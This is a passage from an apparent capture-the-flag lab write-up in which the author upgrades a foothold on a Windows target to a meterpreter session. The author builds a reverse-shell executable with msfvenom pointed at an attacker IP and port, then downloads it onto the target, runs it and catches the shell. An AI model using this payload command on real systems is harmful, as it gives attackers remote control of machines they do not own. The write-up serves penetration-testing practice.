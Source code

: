 We have a `foothold`.  

<br/> 
<img src="/img/Heist_screenshots/Pasted image 20241210182937.png" alt="1" style="width:700px; height:auto;">
<br/>

We can upgrade to a `meterpreter shell` to be able to enumerate more and have better control. We create a `meterpreter reverse shell` using `msfvenom`.   

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.7 LPORT=4444 -f exe > shell-x64.exe
```

<br/> 
<img src="/img/Heist_screenshots/Pasted image 20241210183322.png" alt="1" style="width:700px; height:auto;">
<br/>

We download the `shell` into our target machine and execute it after we open a listener.  

<br/> 
<img src="/img/Heist_screenshots/Pasted image 20241210183637.png" alt="1" style="width:700px; height:auto;">
<br/>

we catch the `shell`.  

<br/> 
<img src="/img/Heist_screenshots/Pasted image 20241210183648.png" alt="1" style="width:700px; height:auto;">
<br/>
